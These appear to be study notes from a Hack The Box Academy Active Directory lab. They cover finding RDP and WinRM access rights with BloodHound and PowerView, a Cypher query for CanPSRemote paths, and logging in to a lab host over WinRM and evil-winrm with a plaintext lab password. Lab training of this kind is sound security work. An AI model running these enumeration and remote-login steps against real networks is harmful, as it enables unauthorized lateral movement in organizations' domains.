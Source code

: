 ----
## Remote Desktop

#### Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound
![image](https://academy.hackthebox.com/storage/modules/143/bh_RDP_domain_users.png)

#### Checking Remote Access Rights using BloodHound
![image](https://academy.hackthebox.com/storage/modules/143/execution_rights.png)

`Analysis` tab :
>`Find Workstations where Domain Users can RDP` or 
>`Find Servers where Domain Users can RDP`

## WinRM
PowerView function `Get-NetLocalGroupMember` to the `Remote Management Users` group. This group has existed since the days of Windows 8/Windows Server 2012 to enable WinRM access without granting local admin rights.

#### Enumerating the Remote Management Users Group
```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

Get-DomainGPOUser -Computer ACADEMY-EA-MS01 -Right CanPSRemote


ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
```

`Cypher query` in BloodHound:
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

![image](https://academy.hackthebox.com/storage/modules/143/canpsremote_bh_cypherq.png)

#### Adding the Cypher Query as a Custom Query in BloodHound

---


#### Establishing WinRM Session from Windows
```powershell-session
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```
#### Connecting to a Target with Evil-WinRM and Valid Credentials
```shell-session
AhmaDb0x@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend
```
